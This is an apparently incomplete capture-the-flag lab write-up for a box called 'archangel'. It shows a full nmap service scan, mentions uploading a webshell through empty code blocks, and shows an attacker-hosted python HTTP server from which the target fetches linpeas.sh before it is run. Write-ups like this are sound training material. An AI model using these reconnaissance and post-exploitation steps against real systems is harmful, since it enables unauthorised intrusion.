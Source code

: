 The service enumeration portion of a penetration test focuses on gathering information about what services are alive on a system or systems.
This is valuable for an attacker as it provides detailed information on potential attack vectors into a system.
Understanding what applications are running on the system gives an attacker needed information before performing the actual penetration test.
In some cases, some ports may not be listed.

# Nmap scan host

```
# Nmap 7.91 scan initiated Fri Feb  5 21:15:19 2021 as: nmap -sC -sV -p- -oA nmap/archangel-fulltcp 10.10.42.162
Nmap scan report for 10.10.42.162
Host is up (0.037s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9f:1d:2c:9d:6c:a4:0e:46:40:50:6f:ed:cf:1c:f3:8c (RSA)
|   256 63:73:27:c7:61:04:25:6a:08:70:7a:36:b2:f2:84:0d (ECDSA)
|_  256 b6:4e:d2:9c:37:85:d6:76:53:e8:c4:e0:48:1c:ae:6c (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Wavefire
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Feb  5 21:16:03 2021 -- 1 IP address (1 host up) scanned in 43.16 seconds
```

On browsing the main website we see the following page:


upload the webshell:


```

```

```
$ python3 -m http.server 8000   
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.102.133 - - [06/Feb/2021 14:35:18] "GET /linpeas.sh HTTP/1.1" 200 -
```
We give execute permission to linpeas.sh and execute it:

